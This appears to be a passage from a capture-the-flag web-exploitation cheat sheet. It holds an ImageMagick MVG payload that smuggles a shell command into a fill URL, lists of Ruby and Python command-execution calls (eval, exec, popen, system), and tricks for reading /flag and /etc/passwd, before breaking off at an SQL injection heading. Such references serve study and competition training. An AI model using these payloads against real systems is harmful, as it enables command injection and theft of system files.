 ```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://rs.panja.cc";ls "-la)'
pop graphic-context
```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: HITCON CTF 2015 - Hard to say
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`

## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`

## Read File

- diff /etc/passwd /flag
- paste /flag
- bzmore /flag
- bzless /flag
- static-sh /flag
- ...

# SQL Injection
